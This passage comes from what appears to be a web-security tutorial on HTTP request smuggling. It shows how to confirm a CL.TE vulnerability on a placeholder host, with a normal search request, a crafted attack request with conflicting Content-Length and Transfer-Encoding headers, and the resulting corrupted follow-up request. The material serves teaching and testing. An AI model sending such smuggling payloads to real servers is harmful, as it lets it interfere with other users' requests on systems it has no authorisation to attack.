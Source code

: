 - An "attack" request that is designed to interfere with the processing of the next request.
- A "normal" request.

If the response to the normal request contains the expected interference, then the vulnerability is confirmed.

For example, suppose the normal request looks like this:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

This request normally receives an HTTP response with status code 200, containing some search results.

The attack request that is needed to interfere with this request depends on the variant of request smuggling that is present: CL.TE vs TE.CL.

## Confirming CL.TE vulnerabilities using differential responses

To confirm a CL.TE vulnerability, you would send an attack request like this:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
